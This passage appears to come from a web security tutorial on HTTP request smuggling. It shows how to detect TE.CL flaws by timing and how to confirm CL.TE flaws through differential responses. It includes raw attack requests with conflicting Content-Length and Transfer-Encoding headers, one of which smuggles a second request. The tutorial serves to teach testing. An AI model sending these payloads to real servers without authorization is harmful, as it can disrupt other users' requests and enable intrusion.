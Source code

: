 ## Finding TE.CL vulnerabilities using timing techniques
If an application is vulnerable to the TE.CL variant of request smuggling, then sending a request like the following will often cause a time delay:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

# Confirming HTTP smuggling vulnerabilities using diferential responses
When a probable request smuggling vulnerability has been detected, you can obtain further evidence for the vulnerability by exploiting it to trigger differences in the contents of the application's responses. This involves sending two requests to the application in quick succession:

- An "attack" request that is designed to interfere with the processing of the next request.
- A "normal" request.
 If the response to the normal request contains the expected interference, then the vulnerability is confirmed.

For example, suppose the normal request looks like this:
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

This request normally receives an HTTP response with status code 200, containing some search results. The attack request that is needed to interfere with this request depends on the variant of request smuggling that is present: CL.TE vs TE.CL. 

## Confirming CL.TE vulnerabilities using differential responses
To confirm a CL.TE vulnerability, you would send an attack request like this:
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
